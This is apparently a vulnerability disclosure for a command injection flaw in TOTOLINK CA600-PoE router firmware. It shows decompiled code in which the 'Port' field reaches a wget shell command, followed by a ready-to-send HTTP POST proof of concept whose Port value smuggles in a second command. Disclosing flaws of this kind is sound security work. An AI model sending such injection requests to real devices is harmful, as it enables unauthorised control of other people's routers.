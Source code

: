 ## Totolink CA600-PoE command injection

### Overview

* Vendor: TOTOLINK

* Product: Totolink CA600-PoE
* Version: V5.3c.6665_B20180820

* Manufacturer's address：https://www.totolink.net/
* Firmware download address ：https://totolink.id/data/upload/20181119/1da7db5e97165fe93f8a139889875bca.zip

### Vulnerability details

Totolink CA600-PoE V5.3c.6665_B20180820 was found to contain a command injection vulnerability in the `msg_process` function via the `Port` parameter. This vulnerability allows attackers to execute arbitrary commands via a crafted request.

```
 1 int __fastcall msg_process(int a1, int a2, int a3, int a4)
 2 {
 3 ……
 4 v7 = cJSON_Parse(a1);
 5 Var = (const char *)websGetVar(v7, "Action", "");
 6 v9 = (const char *)websGetVar(v7, "APMAC", "");
 7 ……
 8 if ( strcmp(Var, "Scan") )
 9 {
 10 ……
 11 v18 = 1;
 12 if ( !strcmp(DEVMAC, v9) )
 13 {
 14 v18 = 0;
 15 ……
 16 }
 17 if ( !v18 )
 18 {
 19 ……
 20 if ( !strcmp(Var, "RemoteUpgradeFW") )
 21 {
 22 v24 = (const char *)websGetVar(v7, "Port", "");    //Injection 
 23 v25 = (const char *)websGetVar(v7, "Url", "");     
 24 seconds = websGetVar(v7, "magicid", "");
 25 v26 = (const char *)websGetVar(v7, "ProxyEnabled", "");
 26 if ( !strcmp(v26, "1") )
 27 {
 28 ……
 29 v64 = strrchr(v25, '/');
 30 v31 = inet_ntoa(*(struct in_addr *)(a4 + 4));
 31 ObjectItem = v56;
 32 sprintf(v56, "wget ‐O /tmp/fwdir/%s http://%s:%s%s", v64, v31, v24, v25);
 33 v23 = 0;
 34     if ( !CsteSystem(ObjectItem, 0) )    //Execution
 35 ……
 36 	}
 37   }
 38 }
```



#### PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: application/json, text/javascript, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 153
Origin: http://192.168.0.254
Connection: close
Referer: http://192.168.0.254
Cookie: SESSION_ID=2:1801026000:2

{
    "topicurl":"msg_process",
    "Action":"RemoteUpgradeFW",
    "ProxyEnabled": 1,
    "Port": "1;pwd;"
}
```

